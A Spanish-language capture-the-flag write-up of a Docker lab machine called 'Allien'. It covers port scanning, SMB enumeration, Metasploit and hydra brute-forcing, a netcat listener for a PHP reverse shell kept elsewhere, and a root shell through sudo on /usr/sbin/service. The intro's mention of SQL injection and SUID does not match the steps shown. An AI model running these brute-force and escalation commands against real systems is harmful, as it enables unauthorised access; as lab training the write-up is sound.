# 🧠 **Informe de Pentesting – Máquina: Allien**

### 💡 **Dificultad:** Fácil



---

## 📝 **Descripción de la máquina**

La máquina vulnerable **Allien** el objetivo es identificar y explotar una vulnerabilidad de inyección SQL en una aplicación web para obtener credenciales de usuarios. Posteriormente, se busca aprovechar recursos compartidos en SMB para obtener más información sensible y utilizar técnicas de fuerza bruta para acceder vía SSH. Finalmente, se debe escalar privilegios explotando permisos SUID mal configurados, logrando acceso como usuario root en el sistema comprometido.

---

## 🎯 **Objetivo**

El objetivo de esta auditoría es identificar y explotar vulnerabilidades en la máquina **Allien** para obtener acceso inicial, escalar privilegios y comprometer completamente el sistema, documentando cada paso con las técnicas utilizadas y las herramientas empleadas durante el proceso.

---

## ⚙️ **Despliegue de la máquina**

Se descarga el archivo comprimido y se despliega el contenedor Docker con el script automatizado:

```bash
unzip backend.zip
sudo bash auto_deploy.sh allien.tar
```



---

## 📡 **Comprobación de conectividad**

Verificamos la conectividad con un ping a la IP objetivo:

```bash
ping -c1 172.17.0.3
```



---

## 🔍 **Escaneo de Puertos**

Se realiza un escaneo rápido para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* 22/tcp (SSH)
* 80/tcp (HTTP)
* 139/tcp (NetBIOS)
* 445/tcp (SMB)



Luego, se profundiza en la detección de servicios:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```



---

## 🌐 **Reconocimiento Web**

Se accede al sitio web en `http://172.17.0.3`, donde se muestra una página de login.



Se realiza un análisis de directorios ocultos con **Gobuster**, encontrando rutas como:

* /info.php
* /index.php
* /productos.php

No se identificaron vulnerabilidades directamente explotables en estos archivos.



---

## 📁 **Reconocimiento SMB**

Se ejecuta **enum4linux** para obtener información detallada del servicio SMB:

```bash
enum4linux 172.17.0.3
```

Esto reveló usuarios como `administrador` y `satriani7`, recursos compartidos como `myshare`, y políticas de contraseña débiles.



Se enumeran los recursos compartidos con:

```bash
smbclient -L //172.17.0.3/ -N
```

Entre los recursos listados destacan:

* `myshare` (acceso anónimo)
* `backup24` (requiere autenticación)
* `home`
* `IPC$`



Se accede de forma anónima a **myshare**:

```bash
smbclient //172.17.0.3/myshare -N
```

Dentro se encuentra un archivo **access.txt** que se descarga con `get`.



---

## 🔐 **Análisis del archivo access.txt**

Se decodifica el contenido Base64URL del archivo `access.txt` con:

```bash
cut -d '.' -f2 access.txt | tr '_-' '/+' | base64 -d
```

Esto revela un payload JWT que contiene información como el usuario `satriani7`.



---

## 🔓 **Fuerza bruta SMB con Metasploit**

Se usa el módulo de fuerza bruta de Metasploit para descubrir la contraseña de `satriani7`:

```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS 172.17.0.3
set USERNAME satriani7
set PASS_FILE /usr/share/wordlists/rockyou.txt
set RPORT 445
run
```

Se obtiene la contraseña: **50cent**




---

## 📂 **Acceso a backup24 y extracción de credenciales**

Con las credenciales válidas se accede a `backup24`:

```bash
smbclient //172.17.0.3/backup24 -U satriani7
```

Se navega al directorio `Documents/Personal` y se descargan `credentials.txt` y `notes.txt`.



---

## 🔑 **Ataque de fuerza bruta SSH**

Se extraen usuarios y contraseñas, se crean archivos `usuarios.txt` y `contraseña.txt`, y se lanza el ataque con:

```bash
hydra -L usuarios.txt -P contraseña.txt ssh://172.17.0.3 -t 4
```

Se obtiene acceso SSH con:

* **Usuario:** administrador
* **Contraseña:** Adm1nP4ss2024



---

## 📡 **Conexión SSH y preparación para Reverse Shell**

Nos conectamos al sistema como administrador:

```bash
ssh administrador@172.17.0.3
```

Se explora el directorio `/var/www/html` y se edita un archivo PHP llamado `revellshell.php`.
Este archivo contiene una **reverse shell** que se conectará al puerto 443 del atacante.
El archivo se encuentra en el repositorio, carpeta `exploit`.



Se inicia escucha con:

```bash
sudo nc -lvnp 443
```

Y se ejecuta la reverse shell desde el navegador:

```
http://172.17.0.3/revellshell.php
```




---

## 🚀 **Escalada de privilegios**

Ya dentro como `www-data`, se enumeran los permisos con `sudo -l`, descubriendo que puede ejecutar `/usr/sbin/service` como root sin contraseña:

```
(ALL) NOPASSWD: /usr/sbin/service
```

Se ejecuta la siguiente línea para obtener una shell como root:

```bash
sudo /usr/sbin/service ../../bin/bash
```

Se confirma la escalada con:

```bash
whoami
```

Salida:

```
root
```

¡Privilegios de root obtenidos exitosamente!



---
